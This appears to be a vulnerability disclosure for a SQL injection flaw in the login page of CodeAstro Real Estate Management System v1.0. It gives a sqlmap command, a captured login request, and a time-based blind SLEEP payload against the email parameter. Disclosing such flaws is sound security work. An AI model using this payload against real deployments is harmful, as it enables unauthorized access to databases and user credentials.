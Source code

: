 # SQLi vulnerability in CodeAstro Real Estate Management System v1.0 of file /login.php

**vender**:

- CodeAstro Real Estate Management System
- [CodeAstro - Home For All Free Source Codes](https://codeastro.com/)

**SoftLink**:

- https://codeastro.com/real-estate-management-system-in-php-with-source-code/

**Vulnerable File**

- /login.php

**Version**

- V1.0

### POC

```bash
sqlmap -r request.txt --level 5 --batch
```



```http
POST /login.php HTTP/1.1
Host: www.realestate.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Cache-Control: max-age=0
Origin: http://www.realestate.com
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=d4bb5bt4089bi920s8gj8fb0np
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Referer: http://www.realestate.com/login.php
Content-Length: 47

email=admin%40gmail.com&pass=123456&login=Login
```





```
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin@gmail.com' AND (SELECT 1267 FROM (SELECT(SLEEP(5)))xRPM)-- zTVO&pass=123456&login=Login
---
```





![image-20250602120035128](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202506021200216.png)